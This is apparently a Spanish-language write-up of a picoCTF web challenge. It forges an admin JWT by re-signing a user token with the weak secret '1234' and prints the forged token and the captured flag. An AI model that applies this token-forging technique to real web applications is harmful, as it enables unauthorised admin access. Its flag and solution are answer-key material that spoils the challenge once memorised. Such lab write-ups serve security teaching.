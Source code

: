 ## Objetivo
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/484/bookshelf-pico.zip).Website can be accessed [here!](http://saturn.picoctf.net:54331/).
## Solución
- Inspeccionamos la pagina, nos dirigimos al apartado de Storage, seleccionamos el almacenaje local, copiamos el auth-token y lo modificamos con ayuda de la siguiente pagina:
```bash
https://jwt.io/
```
- Original:
```bash
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1730087332,
  "iat": 1729482532,
  "userId": 1,
  "email": "user"
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret
)
```
- Modificado:
```bash
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1730087332,
  "iat": 1729482532,
  "userId": 2,
  "email": "admin"
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234
)
```
- Copiamos el nuevo token que se nos genero y lo remplazamos en el auth-token y en el token-payload.
- auth-token:
```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3MzAwODczMzIsImlhdCI6MTcyOTQ4MjUzMiwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.m5W8Q0JVOy9I_BANIKE92wu6CzIJM-q1WFvLbWFbJUs
```
- token-payload:
```bash
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1730087332,
  "iat": 1729482532,
  "userId": 2,
  "email": "admin"
}
```
- Y ahora refrescamos la pagina y ya nos mostrara la bandera.
```bash
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}
```

## Notas Adicionales
## Referencias